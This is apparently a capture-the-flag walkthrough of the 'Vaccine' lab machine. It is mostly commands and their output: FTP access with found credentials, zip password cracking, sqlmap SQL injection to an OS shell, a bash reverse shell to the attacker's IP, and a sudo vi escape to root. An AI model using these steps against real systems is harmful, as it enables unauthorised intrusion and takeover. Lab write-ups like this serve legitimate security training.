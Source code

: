# Vaccine

## Ifconfig

<pre>
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
</pre>

## Nmap

> sudo nmap -sC -sV -A 10.10.10.46

<pre>
Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46
</pre>

## Install ftp

> sudo apt install ftp

> ftp 10.10.10.46

<pre>
username: ftpuser
password: mc@F1l3ZilL4
</pre>

and then get the [backup.zip](./ftp/backup.zip)

## Use zip hash to crack

> zip2john [backup.zip](./ftp/backup.zip) > [backup.hash](./ftp/backup.hash)

> john [backup.hash](./ftp/backup.hash) --show 

<pre>
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
1 password hash cracked, 0 left
</pre>

- unzip with password 741852963

> unzip [backup.zip](./ftp/backup.zip) 


## Try login on [index.php](./ftp/backup/index.php)

<pre>
username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)
</pre>

## Sqlmap hack to the os shell

> sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=**"what you get on session"**" --os-shell

- Check self name

> whoami

<pre>
postgres
</pre>

- Check current path

> pwd

<pre>
/var/lib/postgresql/11/main
</pre>

- Remote command to local

*Source*

> bash -c 'bash -i >& /dev/tcp/10.10.14.69/*port* 0>&1'

*Destination*

> nc -lvnp *port*

- Get ID

> id

<pre>
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
</pre>

- Find postgresql account in [/var/www/html/dashboard.php](./dashboard.php)

<pre>
username: postgres
password: P@s5w0rd!
</pre>

## Sudo lists all privilege current user can do

> sudo -l

<pre>
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
</pre>

- Postgres can use *vi* of */bin/vi* (need sudo)

> which vi

<pre>
/usr/bin/vi
</pre>

- Use *sudo vi* to get root

> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

- Input commend in *sudo vi* to get root privilege

> :!/bin/bash -P

## Finally

<pre>
root.txt
dd6e058e814260bc70e9bbdef2715849
</pre>
